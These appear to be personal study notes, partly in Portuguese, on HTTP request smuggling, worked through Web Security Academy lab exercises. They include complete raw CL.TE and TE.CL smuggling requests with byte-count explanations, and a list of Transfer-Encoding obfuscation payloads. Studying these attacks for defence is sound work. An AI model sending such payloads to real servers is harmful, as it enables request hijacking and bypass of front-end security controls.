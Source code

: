HTTP Request Smuggling
========================

HTTP/1 specification provides two different methods for specifying the length of HTTP messages. it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.

    Content-Length
    Transfer-encoding

Classic request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

Para configurar isso no burp repeater, basta clicar em "inspector" e "request attributes"

![qownnotes-media-qNZkCA](../../../media/qownnotes-media-qNZkCA.png)


CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

Example:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```


1. CL.TE. Behavior - Montei a seguinte requisição para realizar o exercício.

```
POST / HTTP/1.1
Host: 0ab7007003e4da9d80cb1c1700260069.web-security-academy.net
Content-Length: 8
Connection: keep-alive
Transfer-Encoding: chunked

0

G


```

**OBS: Vide que o Content-Length deve deter o tamanho a considerar da seguinte maneira: /n + 0/n +/n + G/n. Quero dizer que o salto de linha também deve ser considerado para contar o número de bytes a ser informado no cabeçalho Content-Length**

Outro ponto a ser considerado é que o HTTP deve estar na versão 1 ou 1.1 do protocolo.

2. TE.CL. Behavior - Com a requisição abaixo eu consegui executar o exercício 

```
POST / HTTP/1.1
Host: 0acd009a0334db86801d4e3800880056.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

5e
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

x=123
0


```

Explicações:

Content-Length:4 = Tamanho do payload da primeira requisição, sendo 4 bytes por ser "\r\n5e"

5e = Tamanho da requisição maliciosa que vai desde (de trás para frente)... "321=x\r\n\r\n41 :htgneL... até / TSOP"

Content-Length: 14 = Tamanho do payload dentro da requisição maliciosa, sendo: "\r\nx=123\r\n0\r\n\r\n"

3. TE.TE Behavior

Possíveis payloads:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
